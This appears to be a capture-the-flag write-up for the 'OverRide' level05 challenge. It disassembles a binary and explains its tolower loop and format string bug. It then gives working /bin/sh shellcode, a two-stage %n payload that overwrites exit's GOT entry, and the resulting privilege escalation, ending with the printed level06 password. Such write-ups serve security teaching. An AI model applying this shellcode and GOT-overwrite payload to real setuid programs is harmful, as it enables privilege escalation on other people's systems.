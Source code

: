 # Level 05

## GDB Utils

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     push   %edi
   0x08048448 <+4>:     push   %ebx
   0x08048449 <+5>:     and    $0xfffffff0,%esp
   0x0804844c <+8>:     sub    $0x90,%esp
   0x08048452 <+14>:    movl   $0x0,0x8c(%esp)
   0x0804845d <+25>:    mov    0x80497f0,%eax
   0x08048462 <+30>:    mov    %eax,0x8(%esp)
   0x08048466 <+34>:    movl   $0x64,0x4(%esp)
   0x0804846e <+42>:    lea    0x28(%esp),%eax
   0x08048472 <+46>:    mov    %eax,(%esp)
   0x08048475 <+49>:    call   0x8048350 <fgets@plt>
   0x0804847a <+54>:    movl   $0x0,0x8c(%esp)
   0x08048485 <+65>:    jmp    0x80484d3 <main+143>
   0x08048487 <+67>:    lea    0x28(%esp),%eax
   0x0804848b <+71>:    add    0x8c(%esp),%eax
   0x08048492 <+78>:    movzbl (%eax),%eax
   0x08048495 <+81>:    cmp    $0x40,%al
   0x08048497 <+83>:    jle    0x80484cb <main+135>
   0x08048499 <+85>:    lea    0x28(%esp),%eax
   0x0804849d <+89>:    add    0x8c(%esp),%eax
   0x080484a4 <+96>:    movzbl (%eax),%eax
   0x080484a7 <+99>:    cmp    $0x5a,%al
   0x080484a9 <+101>:   jg     0x80484cb <main+135>
   0x080484ab <+103>:   lea    0x28(%esp),%eax
   0x080484af <+107>:   add    0x8c(%esp),%eax
   0x080484b6 <+114>:   movzbl (%eax),%eax
   0x080484b9 <+117>:   mov    %eax,%edx
   0x080484bb <+119>:   xor    $0x20,%edx
   0x080484be <+122>:   lea    0x28(%esp),%eax
   0x080484c2 <+126>:   add    0x8c(%esp),%eax
   0x080484c9 <+133>:   mov    %dl,(%eax)
   0x080484cb <+135>:   addl   $0x1,0x8c(%esp)
   0x080484d3 <+143>:   mov    0x8c(%esp),%ebx
   0x080484da <+150>:   lea    0x28(%esp),%eax
   0x080484de <+154>:   movl   $0xffffffff,0x1c(%esp)
   0x080484e6 <+162>:   mov    %eax,%edx
   0x080484e8 <+164>:   mov    $0x0,%eax
   0x080484ed <+169>:   mov    0x1c(%esp),%ecx
   0x080484f1 <+173>:   mov    %edx,%edi
   0x080484f3 <+175>:   repnz scas %es:(%edi),%al
   0x080484f5 <+177>:   mov    %ecx,%eax
   0x080484f7 <+179>:   not    %eax
   0x080484f9 <+181>:   sub    $0x1,%eax
   0x080484fc <+184>:   cmp    %eax,%ebx
   0x080484fe <+186>:   jb     0x8048487 <main+67>
   0x08048500 <+188>:   lea    0x28(%esp),%eax
   0x08048504 <+192>:   mov    %eax,(%esp)
   0x08048507 <+195>:   call   0x8048340 <printf@plt>
   0x0804850c <+200>:   movl   $0x0,(%esp)
   0x08048513 <+207>:   call   0x8048370 <exit@plt>
```

The binary only contains a main.

IDA :

```c
int main(int argc, const char **argv, const char **envp)
{
  int result;
  char v4[100];
  unsigned int i;

  i = 0;
  fgets(v4, 100, stdin);
  for ( i = 0; i < strlen(v4); ++i )
  {
    if ( v4[i] > 64 && v4[i] <= 90 )
      v4[i] ^= 0x20;
  }
  printf(v4);
  exit(0);
  _libc_csu_init();
  return result;
}
```

Lets see what's the binary behavior's.


```sh
level05@OverRide:~$ ./level05
da
da
level05@OverRide:~$ ./level05
heyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy
heyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyylevel05@OverRide:~$ ./level05
^C
level05@OverRide:~$
level05@OverRide:~$ ./level05
heyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyheyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyheyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy
heyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyylevel05@OverRide:~$
level05@OverRide:~$
```

So yes the the programs is using fgets() with a limit of 100 byte, to fill a buffer who seems to fit.

The program then use printf to print the buffer, but is vulnerable to a format string attack.

But before the buffer is printed, the content of the buffer is submitted to the OR bitwise operator with the value 32, if the content is between 64 and 90, which is between 'A' and 'Z'.

Before trying to attack the binary with the format string attack lets see what that transformation does.

My translation :

```c
int main(int ac, char **av)
{
        if ( ac != 2)
                return 0;

        for (int i = 0; i < strlen(av[1]); i++)
        {
                if (av[1][i] > 64 && av[1][i] <= 90 )
                        av[1][i] ^= 0x20;
        }
        printf(av[1]);
        return 0;
}
```

Output :

```sh
➜  workspace ./a.out hey
hey
➜  workspace ./a.out HEY
hey
➜  workspace ./a.out LOOOOOOOOOOOL
loooooooooool 
```

So it basically mean the v4 buffer is submitted to a tolower() call.

## Format String Attack

We can basically make an easy format string attack, but there is nothing that's is executing a shell in the program, the only way to do so is by using a shellcode.


So first of all we are going to bring that shellcode to the program using the environnement like so :

```sh
level05@OverRide:~$ export SHELLCODE=$(python -c "print '\x90' * 20 + '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'")
```

Then we are going to find where it start in the stack.

```sh
0xffffd870:     0x458493fd      0x4d0d9289      0x69b6f951      0x00363836
0xffffd880:     0x2f000000      0x656d6f68      0x6573752f      0x6c2f7372
0xffffd890:     0x6c657665      0x6c2f3530      0x6c657665      0x53003530
0xffffd8a0:     0x4c4c4548      0x45444f43      0x9090903d      0x90909090
0xffffd8b0: >>> 0x90909090      0x90909090      0x90909090      0x31c03190
0xffffd8c0:     0xcd06b0db      0x2f685380      0x68797474      0x7665642f
0xffffd8d0:     0xc931e389      0x2712b966      0x80cd05b0      0x6850c031
0xffffd8e0:     0x68732f2f      0x69622f68      0x50e3896e      0x99e18953
0xffffd8f0:     0x80cd0bb0      0x45485300      0x2f3d4c4c      0x2f6e6962
0xffffd900:     0x68736162      0x52455400      0x74783d4d      0x2d6d7265
0xffffd910:     0x63363532      0x726f6c6f      0x48535300      0x494c435f
0xffffd920:     0x3d544e45      0x302e3031      0x322e322e      0x38303520
0xffffd930:     0x34203839      0x00323432      0x5f485353      0x3d595454
0xffffd940:     0x7665642f      0x7374702f      0x5500302f      0x3d524553
0xffffd950:     0x6576656c      0x0035306c      0x435f534c      0x524f4c4f
0xffffd960:     0x73723d53      0x643a303d      0x31303d69      0x3a34333b
0xffffd970:     0x303d6e6c      0x36333b31      0x3d686d3a      0x703a3030
0xffffd980:     0x30343d69      0x3a33333b      0x303d6f73      0x35333b31
0xffffd990:     0x3d6f643a      0x333b3130      0x64623a35      0x3b30343d
0xffffd9a0:     0x303b3333      0x64633a31      0x3b30343d      0x303b3333
0xffffd9b0:     0x726f3a31      0x3b30343d      0x303b3133      0x75733a31
0xffffd9c0:     0x3b37333d      0x733a3134      0x30333d67      0x3a33343b
0xffffd9d0:     0x333d6163      0x31343b30      0x3d77743a      0x343b3033
(gdb)
```

Our NOP's start at 0xffffd8b0.

The next instruction after the vulnerable printf is an exit(), so we are going to write his GOT's address


```sh
level05@OverRide:~$ objdump -R ./level05                                                                                                                                                    
./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit <<<<<<<<<<<<<<<
080497e4 R_386_JUMP_SLOT   __libc_start_main
```

The address to overwrite is 0x080497e0, with 0xffffd8b0.


But 0xffffd8b0 in decimal is equal to 4294957232.

Which is impossible to print, so we must write it in 2 times.

We are going to write 0xd8b0 at 0x080497e0.

And 0xffff at 0x080497e2 (2 byte far)

The final exploit will look like this :

```sh
python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55464x' + '%10\$n' '%10063x' + '%11\$n'"
```

We are writting the 2 address to overwrite, then we write 0xd8b0 - 8 (Because of the 2 address we already wrote) in decimal, we then points to the first address and use %n to write.

We must now write 65535 but we already wrote 55464, so we are going to write 65535 - (55464 - 8) = 10063, and then points to the second address.

We test it :

```sh
$ id
uid=1005(level05) gid=1005(level05) euid=1006(level06) egid=100(users) groups=1006(level06),100(users),1005(level05)
$ cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
$
```
And it worked !